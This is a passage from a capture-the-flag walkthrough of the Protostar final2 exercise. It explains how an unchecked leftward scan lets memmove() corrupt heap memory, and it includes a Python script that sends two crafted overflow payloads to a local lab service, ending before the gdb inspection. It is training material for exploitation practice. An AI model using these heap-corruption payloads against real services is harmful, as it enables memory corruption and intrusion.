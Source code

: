 - **l** is 5.
- **start** initially points to **R** in **ROOT**, but the while loop moves it back to the first **/**.
- `memmove()` then modifies the string to **FSRD/AAAA/AAAA**.

Here's the problem:
- `start--` doesn't check if it's going out of bounds while scanning leftward for a **/**.
- This means `memmove()` can end up writing data outside the intended string buffer, leading to a memory corruption vulnerability.

### Exploit `memmove()`

Let's create a first payload that sets things up so the second payload can overwrite heap memory before the start of the second string.
- First payload: **FSRDAAAA...AAAA/AAAA**.
- Second payload: **FSRDROOTAAA...AAAA/BBBB**.

Here's what happens:
- After the second call to `check_path()`, the heap memory of the first string should now hold **FSRDAAAA...AAAA/BBBB**.

Let's confirm this using a **Python script** and `gdb`:
1. Set a breakpoint right after the call to `check_path()`.
2. Send these two strings and observe the heap memory.

Save the following contents into `final2.py`:

```python
import socket

HOST = '127.0.0.1'
PORT = 2993
REQSZ = 128

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((HOST, PORT))

payload1 = "FSRD" + "A" * (REQSZ - 4 - 5) + "/AAAA"

payload2 = "FSRDROOT" + "A" * (REQSZ - 8 - 5) + "/BBBB"

s.send(payload1)
s.send(payload2)
```

The first thing is to set up `gdb`:

![gdb-set-up](public/image/protostar-final/gdb-set-up.png)

Next, disassemble `get_requests()` and set a breakpoint right at where `check_path()` returns.

![get-request-disassemble](public/image/protostar-final/get_requests_disassemble.png)

Let's run our script, and inspect the memory:
